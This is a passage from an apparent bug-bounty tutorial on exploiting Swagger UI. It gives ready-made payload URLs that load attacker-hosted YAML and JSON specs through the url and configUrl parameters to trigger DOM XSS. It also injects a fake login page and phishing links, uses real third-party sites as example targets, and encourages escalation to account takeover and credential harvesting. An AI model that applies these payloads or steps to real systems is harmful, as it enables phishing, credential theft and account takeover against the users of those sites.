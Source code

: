 - Now it's time to add the payload, that is our resource injections.

1. **DOM XSS Test payload:**

```bash
# full payload:

https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/rtest0.yaml

- Like this lab.ndl.go.jp/dl/swagger-ui.html?url=https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/rtest0.yaml

```

If you're lucky you'll get like the image below.

![None](https://miro.medium.com/v2/resize:fit:700/1*-K-gOCpSKlCNv_XxW_6--g.png)

									DOM XSS POC

If you get this pop up, **you are very lucky!** You can now try for **Account Takeover + Credential Harvesting + Phishing page.**

_Find the Account Takeover steps at the end of these steps below._

**Tip:** try this Swagger UI payload too:

```bash
#if you find the swagger UI instance in the /DOCUMENTATION path:

https://subdomain.paytm.com/DOCUMENTATION?configUrl=https://xss.smarpo.com/test.json
```

But if you don't see a pop up, and feel that you are unlucky, hold up!

_If your page is like this_

![None](https://miro.medium.com/v2/resize:fit:700/1*DBQpZSZjmF3EezRJgZHUhA.png)

		No pop up but the API documentation has changed

**3. Resource Injection**

You're still in luck; this means that it is vulnerable to **resource injection vulnerability**.

- **You can inject a fake login page or hyperlink injection for impact like credential harvesting and phishing.**
- I have also created them for you, so simply inject the two payloads below for POC.

**4 and 5. Resource Injection Payloads: Fake login page + Phishing Hyperlink Injection**

```bash
Fake login page: https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/rlogin1.yaml 

Phishing page: https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/ylogin.yaml

#full payload:

- Like this: lab.ndl.go.jp/dl/swagger-ui.html?url=https://raw.githubusercontent.com/Rivek619/R-Payloads-101/refs/heads/main/SwaggerUI/rlogin1.yaml

```
